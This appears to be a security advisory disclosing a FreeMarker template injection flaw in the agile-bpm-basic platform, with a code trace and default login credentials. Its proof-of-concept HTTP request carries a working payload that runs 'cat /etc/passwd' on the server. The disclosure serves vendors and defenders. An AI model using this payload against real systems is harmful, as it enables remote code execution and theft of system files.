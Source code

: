 The agile-bpm-basic system has another high-risk vulnerability that causes RCE due to SSTI vulnerability

# Vulnerability Description

The open source low-code rapid development platform "[agile-bpm/agile-bpm-basic](https://gitee.com/agile-bpm/agile-bpm-basic)" has a FreeMarker SSTI vulnerability that allows attackers to execute arbitrary FreeMarker code to gain full control of the victim's server.

- Vulnerability Discloser: [Honor Cyber Security Lab](https://github.com/honorseclab)

- Vendors: [www.tongzhouyun.com](https://www.tongzhouyun.com/)

- Source code address： [agile-bpm/agile-bpm-basic](https://gitee.com/agile-bpm/agile-bpm-basic)

Related reports online link:

- [https://gitee.com/agile-bpm/agile-bpm-basic/issues/ICAQWG](https://gitee.com/agile-bpm/agile-bpm-basic/issues/ICAQWG)；
- [https://github.com/honorseclab/vulns/blob/main/AgileBPM_agile-bpm-basic/RCE2.md](https://github.com/honorseclab/vulns/blob/main/AgileBPM_agile-bpm-basic/RCE2.md);

Note: 

- **This vulnerability was discovered automatically by my AI code audit tool**.

- The vulnerability is in the latest version code submitted as of 20250526, but the author has not synchronized the release version. According to the public Readme information, it is roughly judged to belong to version v2.8.

# Vulnerability Analysis

The vulnerability code entry point is located at：

- [https://gitee.com/agile-bpm/agile-bpm-basic/blob/master/ab-sys/ab-sys-core/src/main/java/com/dstz/sys/rest/controller/SysToolsController.java#L214](https://gitee.com/agile-bpm/agile-bpm-basic/blob/master/ab-sys/ab-sys-core/src/main/java/com/dstz/sys/rest/controller/SysToolsController.java#L214)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
// ab-sys\ab-sys-core\src\main\java\com\dstz\sys\rest\controller\SysToolsController.java:parseStrByFreeMarker
    @RequestMapping(value = "parseStrByFreeMarker")
	public ApiResponse<?> parseStrByFreeMarker(@RequestBody ParseStrByFreeMarkerDTO dto) {
		return ApiResponse.success(AbFreemarkUtil.parseByString(dto.getStr(), systemVariableApi.getVariableMap()));  // <-------
	}

// ab-sys\ab-sys-core\src\main\java\com\dstz\sys\rest\model\dto\ParseStrByFreeMarkerDTO.java:getStr
    public String getStr() {
        return str;
    }

// ab-base\ab-base-common\src\main\java\com\dstz\base\common\utils\AbFreemarkUtil.java:parseByString
    public static String parseByString(String templateSource, Object model) {
        return getFreemarkerEngine().parseByString(templateSource, model);  // <-------
    }

// ab-base\ab-base-common\src\main\java\com\dstz\base\common\freemark\impl\FreemarkerEngine.java:parseByString
    @Override
    public String parseByString(String templateSource, Object model) {
        if (model != null && model instanceof Map) {
            //将所有表单生成器的实现类注入到模板引擎中
            Map<String, IFreemarkScript> scirptImpls = SpringUtil.getBeansOfType(IFreemarkScript.class);
            for (Entry<String, IFreemarkScript> scriptMap : scirptImpls.entrySet()) {
                ((Map) model).put(scriptMap.getKey(), scriptMap.getValue());
            }
            model = new freemarker.ext.beans.SimpleMapModel((Map)model, null);
        }

        try {
            Configuration cfg = new Configuration();
            StringTemplateLoader loader = new StringTemplateLoader();
            cfg.setTemplateLoader(loader);
            cfg.setClassicCompatible(true);
            loader.putTemplate("freemaker", templateSource); // <-------
            Template template = cfg.getTemplate("freemaker");
            StringWriter writer = new StringWriter();
            template.process(model, writer);
            return writer.toString();
        } catch (Exception e) {
            LOG.error(String.format("freemaker模板【%s】解析失败：%s", templateSource, e.getMessage()));
            throw new BusinessException(GlobalApiCodes.INTERNAL_ERROR.formatMessage("模板解析失败,可能原因为：{}", ExceptionUtil.getRootCause(e).getMessage()), ExceptionUtil.getRootCause(e));
        }
    }
```

As you can see, the external API ("/parseStrByFreeMarker") receives the value of the externally controllable string variable "str" and passes it directly to the "freemarker.cache.StringTemplateLoader:putTemplate" function for script execution without any verification. This constitutes a complete arbitrary code execution vulnerability, which can be used by attackers to gain control of the victim's server.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file. The easiest way is to deploy the environment through containers, which only requires the following two commands:

```shell
docker pull registry.cn-hangzhou.aliyuncs.com/agilebpm/agile-bpm-basic:latest
docker run --name agile-bpm-basic -p 80:80 registry.cn-hangzhou.aliyuncs.com/agilebpm/agile-bpm-basic:latest
```

Then visit the login page through http://ip:80, log in with the default account and password("admin/1"), and obtain a valid "Authorization" request header.

The vulnerability proof of concept (POC) is as follows:

```js
POST /api/ab-bpm/sys/tools/parseStrByFreeMarker HTTP/1.1
Host: 192.168.190.132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=UTF-8
Authorization: Bearer Z9BLIkDvnRe6cW84OCcxXmiyqFk
Content-Length: 100
Origin: http://192.168.190.132
Connection: keep-alive
Referer: http://192.168.190.132/sys/scripts/scriptList
Priority: u=0

{
    "str": "<#assign ex='freemarker.template.utility.Execute'?new()> ${ex('cat /etc/passwd')}"
}
```

After I deployed this project on my Ubuntu virtual machine, I successfully executed the "cat /etc/passwd" command by accessing the API and verified this vulnerability, as shown in the following picture.
![图片](https://github.com/user-attachments/assets/fbe0a4ce-3a15-4da2-8137-e9e0398dc6b5)


# Security Suggestions

Verify the legitimacy of the "str" to be executed to prevent arbitrary code execution from causing the server to be controlled by attackers.
